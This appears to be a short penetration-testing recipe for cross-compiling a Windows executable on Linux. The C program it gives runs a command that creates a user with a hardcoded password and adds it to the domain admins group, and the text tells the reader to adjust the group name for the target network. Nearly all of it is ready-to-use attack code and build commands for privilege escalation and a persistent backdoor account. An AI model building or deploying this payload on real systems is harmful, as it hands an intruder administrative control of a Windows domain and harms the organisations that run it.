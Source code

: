 ## Compile a Windows Executable From a Linux Host

Install the cross-compiler.
```
sudo aptitude install mingw-w64
```

In file `adddom.c`:
```
#include <stdlib.h>
#include <windows.h>

int main(void)
{
  system("cmd.exe /c net user admjack P@$$word /ADD && net group \"Admins du domaine\" admjack /ADD /DOMAIN");
  return 0;
}
```

*Do not forget to modify the group name regarding your environment.*

Then:
```
i586-mingw32msvc-gcc -static adddom.c -o adddom.exe
```
